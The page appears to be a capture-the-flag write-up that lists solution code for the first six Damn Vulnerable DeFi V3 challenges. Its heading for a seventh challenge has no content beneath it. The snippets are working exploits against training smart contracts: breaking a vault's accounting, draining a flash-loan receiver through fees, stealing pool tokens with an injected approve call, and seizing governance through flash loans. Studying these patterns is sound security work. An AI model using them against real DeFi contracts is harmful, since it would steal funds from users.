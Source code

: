 
#Challenge #1:        

Un-Stoppable

````
// lets transfer some amount directly to vault and make the if logic fail forever
await token.connect(player).transfer(vault.address, 10);
````

#Challenge #2:

Naive Receiver

````
await pool.connect(player).flashLoan(receiver.address, ETH, 0, "0x");
````

#Challenge #3:

Truster

````
let interface = new ethers.utils.Interface(["function approve(address spender, uint256 amount)"]);
let data = interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL]);
await pool.connect(player).flashLoan(0, player.address, token.address, data);
await token.connect(player).transferFrom(pool.address, player.address,  TOKENS_IN_POOL);
````

#Challenge #4: 

[Challenge #4 - Side Entrance]

In the Flash Loan call deposit function and trick the contract flash loan check

```
this.attackerContract = await (await ethers.getContractFactory('AttackSideEntrance', player)).deploy(
    pool.address,
    player.address
);
await this.attackerContract.attack();
```

#Challenge #5

The Rewarder

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    // Advance time 5 days so that depositors can get rewards
    await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]); // 5 days
    this.attackerContract = await ( await ethers.getContractFactory("AttackTheRewarder", player)).deploy(
        flashLoanPool.address, rewarderPool.address, liquidityToken.address, rewardToken.address
    );
    await this.attackerContract.attack();
});
````

#Challenge #6

Selfie [ Damn Vulnerable DeFi V3 Challenge 6 Solution: Selfie Walkthrough Guide ]

````
it('Execution', async function () {
    /** CODE YOUR SOLUTION HERE */
    
    this.attackContract = await (await ethers.getContractFactory("AttackSelfie", player)).deploy(
    pool.address, governance.address, token.address
    );
    await this.attackContract.attack();
    const ACTION_DELAY = 3 * 24 * 60 * 60 + 1;
    await time.increase(ACTION_DELAY);
    await governance.connect(player).executeAction(1);
});
````

#Challenge #7

Damn Vulnerable DeFi V3 Challenge 7 Solution - Compromised Walkthrough
